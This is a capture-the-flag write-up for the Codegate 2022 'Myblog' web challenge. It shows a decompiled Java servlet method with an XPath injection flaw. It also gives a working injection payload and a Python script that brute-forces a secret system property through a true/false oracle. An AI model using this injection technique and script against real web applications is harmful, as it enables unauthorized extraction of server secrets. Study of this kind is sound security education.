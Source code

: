 # Myblog

**Author**: jkr

**Tags:** web

**Points:** 884 (19 solves)

**Description:** 

> I made a blog. Please check the security.

myblog is a simple blog that allows registering a user as well as reading and writing blog posts that have a title and content. The complete application logic is in `blogServlet.class`. After decompilation we see the request routing and user/session handling. The only function that is standing out to be exploitable is `doReadArticle()` that gets called when viewing a blog post.

```java=
  private String[] doReadArticle(HttpServletRequest req) {
    String id = (String)req.getSession().getAttribute("id");
    String idx = req.getParameter("idx");
    if ("null".equals(id) || idx == null)
      return null; 
    File userArticle = new File(this.tmpDir + "/article/", id + ".xml");
    try {
      InputSource is = new InputSource(new FileInputStream(userArticle));
      Document document = DocumentBuilderFactory.newInstance().newDocumentBuilder().parse(is);
      XPath xpath = XPathFactory.newInstance().newXPath();
      String title = (String)xpath.evaluate("//article[@idx='" + idx + "']/title/text()", document, XPathConstants.STRING);
      String content = (String)xpath.evaluate("//article[@idx='" + idx + "']/content/text()", document, XPathConstants.STRING);
      title = decBase64(title.trim());
      content = decBase64(content.trim());
      return new String[] { title, content };
    } catch (Exception e) {
      System.out.println(e.getMessage());
      return null;
    } 
  }
```

As `idx` parameter is unfiltered and this parameter goes straight into an XPath evaluation we can inject into XPath. Given the flag being placed in `catalina.properties` of tomcat means that the flag will be available as a system property called `flag`. Lucky enough XPath allows to access a system property using `fn:system-property()` as documented in the [XSL function spec](https://www.w3schools.com/xml/func_systemproperty.asp).

We can use the XPath injection to have an oracle (true/false) using an injected XPath. After creating a blog post containing the word `MARKER` in title and content we use following script to brute the flag content using the true/false oracle of the injection `1' and starts-with(system-property('flag'),'FLAGHERE') or '`:

```python=
#!/usr/bin/python
import requests, string
headers = {"Cookie":"JSESSIONID=42442D352EBC41CE4FE07B8C0B72820C"}
chars = "abcdef0123456789}{"

url = 'http://3.39.79.180/blog/read?idx=1%27%20and%20starts-with(system-property(%27flag%27),%27{0}%27)%20or%20%27'
p = 'codegate2022{'
while True:
    print p
    for x in chars:
        r = requests.get(url.format(p+x), headers=headers, allow_redirects=False)
        if "MARKER" in r.text:
            p += x
            break
```